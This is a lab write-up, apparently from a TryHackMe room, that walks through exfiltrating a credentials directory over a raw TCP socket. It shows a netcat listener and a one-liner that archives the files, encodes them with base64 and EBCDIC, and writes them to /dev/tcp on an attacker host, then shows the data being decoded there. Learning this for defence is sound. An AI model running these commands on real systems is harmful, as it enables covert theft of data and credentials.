 # Exfiltration Using TCP Socket

This task demonstrates how to exfiltrate data over TCP using data encoding. Using a TCP socket is one of the data exfiltration techniques attackers may use in non-secured environments without network-based security products. In well-secured environments, this method is not recommended as it is easy to detect due to reliance on non-standard protocols.

## Overview

Besides the TCP socket, we will use additional techniques such as data encoding and archiving. A key benefit of this approach is that it encodes the data during transmission, making it harder to examine.

### How TCP Communication Works

If two machines want to communicate over TCP, one must listen for incoming traffic. This is similar to how two people communicate, where one listens while the other speaks.

#### Connection Over TCP/Port

The diagram below explains how two hosts communicate over TCP on port 1337:

1. The first machine listens on TCP port 1337.
2. The second machine connects to the specified port (e.g., `nc 1.2.3.4 1337`).
3. The first machine establishes the connection.
4. Data transfer begins (e.g., the attacker sends commands and receives results).

### Network Setup

We will use two machines for this task:
- **Victim Machine**: `victim1.thm.com`
- **Attacker Machine**: `jump.thm.com` (JumpBox)

#### Setting Up a Listener on the JumpBox

Run the following command on the JumpBox to listen on port 8080 and save the received data:

```bash
thm@jump-box$ nc -lvp 8080 > /tmp/task4-creds.data
Listening on [0.0.0.0] (family 0, port 8080)
```

#### Connecting to the Victim Machine

Use the following credentials to connect to the victim machine: `thm:tryhackme`.

From the JumpBox:
```bash
thm@jump-box$ ssh thm@victim1.thm.com
```

From the AttackBox (using port 2022):
```bash
root@AttackBox$ ssh thm@10.10.82.84 -p 2022
```

### Preparing Data for Exfiltration

On the victim machine, check the credentials file:

```bash
thm@victim1:~$ cat task4/creds.txt
admin:password
Admin:123456
root:toor
```

### Exfiltrating Data Over TCP Socket

Ensure the listener is running on the JumpBox. Then, execute the following command on the victim machine to exfiltrate the data:

```bash
thm@victim1:$ tar zcf - task4/ | base64 | dd conv=ebcdic > /dev/tcp/192.168.0.133/8080
0+1 records in
0+1 records out
260 bytes copied, 9.8717e-05 s, 2.6 MB/s
```

#### Command Breakdown

- `tar zcf - task4/`: Creates a compressed archive of the `task4/` directory.
    - `z`: Use gzip for compression.
    - `c`: Create a new archive.
    - `f`: Specify the archive file.
- `base64`: Converts the archive to Base64 representation.
- `dd conv=ebcdic`: Encodes the data using EBCDIC.
- `/dev/tcp/192.168.0.133/8080`: Sends the data to the specified IP and port.

### Receiving and Restoring Data on the JumpBox

#### Receiving Data

On the JumpBox, confirm the data is received:

```bash
thm@jump-box$ ls -l /tmp/
-rw-r--r-- 1 root root 240 Apr 8 11:37 task4-creds.data
```

#### Restoring the Data

Convert the received data back to its original format:

```bash
thm@jump-box$ cd /tmp/
thm@jump-box:/tmp/$ dd conv=ascii if=task4-creds.data | base64 -d > task4-creds.tar
0+1 records in
0+1 records out
260 bytes transferred in 0.000321 secs (810192 bytes/sec)
```

#### Extracting the Archive

Unarchive the file and verify its contents:

```bash
thm@jump-box$ tar xvf task4-creds.tar
task4/
task4/creds.txt
```

#### Confirming the Data

Check the extracted file:

```bash
thm@jump-box$ cat task4/creds.txt
admin:password
Admin:123456
root:toor
```

## Conclusion

We successfully exfiltrated data from the victim machine to the attacker machine using a TCP socket.
